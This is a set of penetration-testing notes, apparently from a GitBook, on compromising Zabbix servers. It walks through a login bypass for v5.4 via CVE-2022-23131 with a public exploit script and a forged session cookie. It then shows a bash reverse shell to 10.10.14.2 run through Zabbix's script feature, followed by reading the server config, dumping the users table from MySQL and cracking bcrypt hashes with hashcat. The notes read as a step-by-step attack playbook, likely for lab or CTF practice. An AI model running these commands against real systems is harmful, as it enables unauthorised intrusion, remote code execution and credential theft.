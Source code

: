 # Zabbix

<details>

<summary>V5.4 Bypass Login</summary>

### Checking if Zabbix is v5.4:

* Hover around "Help" button --> will refer to the respective zabbix version documentation

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use [https://github.com/Mr-xn/cve-2022-23131](https://github.com/Mr-xn/cve-2022-23131)

```
python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin
```

* If error "Failed to resolve \<host>" --> have to add entry to `/etc/hosts`

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Uncomment lines 60 and 62 to show the session cookies

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rerun the command `python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin`

* Copy the zbx\_signed\_session cookie and add it to the cookies for the webpage

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Press the SSO login option --> successful login

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>



</details>

<details>

<summary>Reverse Shell From Zabbix</summary>

Go to "Administration" --> "Scripts" --> "Create Script"

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

* Name: revshell
* Scope: Manual host action
* Type: Script
* Execute on: Zabbix server (proxy)
* Commands: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/80 0>&1'`
* Add

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Monitoring --> Hosts --> Zabbix server --> revshell

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

nc -lvp 80

<figure><img src=".gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Zabbix Server Configurations</summary>

`cat /usr/local/etc/zabbix_server.conf` & removing commented out lines:

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### Connecting to MySQL DB for zabbix

```
mysql -h 127.0.0.1 -P 3306 -u zabbix  -p'rD...' zabbix
show databases;
use zabbix;
show tables;
select * from users;
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cracking Zabbix's bcrypt hash:

```bash
hashcat -m 3200 hash.txt rockyou.txt
```

</details>
